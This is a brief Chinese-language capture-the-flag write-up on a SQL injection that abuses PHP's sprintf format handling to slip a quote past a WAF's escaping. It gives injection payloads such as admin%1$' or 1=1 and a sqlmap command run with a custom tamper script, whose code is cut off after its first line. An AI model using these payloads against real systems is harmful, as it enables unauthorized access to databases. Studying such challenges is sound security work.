

格式化漏洞
题目描述
sql注入 + % 报错

题目分析
格式化注入漏洞
在php调用sprintf函数时,如果 参数的数量少于 %数量,会报错.
1 | $sql = "select * from user where username = '%\' and 1=1#' and password='%s';"; |
其中通过%'会先被waf过滤为%\'然后,sprintf会把%\吞掉.其中%1$'原理一样.
但是不知道为什么,%'会报错. 而%1$'不会报错 .
解决
构造参数 admin%1$' or 1=1 与 admin$1' or 1=2存在报错注入.可以通过sqlmap编写 tamper 去跑.
编写tamper
1 | # -*- coding: utf-8 -*- |
然后执行
1 | sqlmap -r “request.txt” -p username –level 3 –dbms mysql –tamper sprintf.py |